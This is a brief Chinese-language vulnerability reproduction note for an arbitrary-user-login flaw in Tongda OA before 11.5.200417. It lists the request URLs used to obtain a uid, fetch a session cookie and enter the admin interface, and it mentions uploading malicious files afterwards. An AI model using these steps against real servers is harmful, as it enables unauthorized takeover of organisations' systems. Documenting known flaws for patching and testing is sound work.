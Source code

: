 通达OA \< 11.5.200417 任意用户登录漏洞
======================================

一、漏洞简介
------------

未经授权的攻击者可以通过构造进行任意用户登录（包括admin），登录之后可进一步上传恶意文件控制网站服务器。

二、漏洞影响
------------

通达OA \< 11.5.200417版本

三、复现过程
------------

### 第一种利用方法

> 第一步：拿到uid

    http://www.0-sec.org/general/login_code.php
    http://www.0-sec.org/ispirit/login_code.php

![](./resource/通达OA<11.5.200417任意用户登录漏洞/media/rId25.png)

> 第二步：拿到cookie

    http://www.0-sec.org/logincheck_code.php

![](./resource/通达OA<11.5.200417任意用户登录漏洞/media/rId26.png)

> 第三步：

    http://www.0-sec.org/general/index.php?is_modify_pwd=1
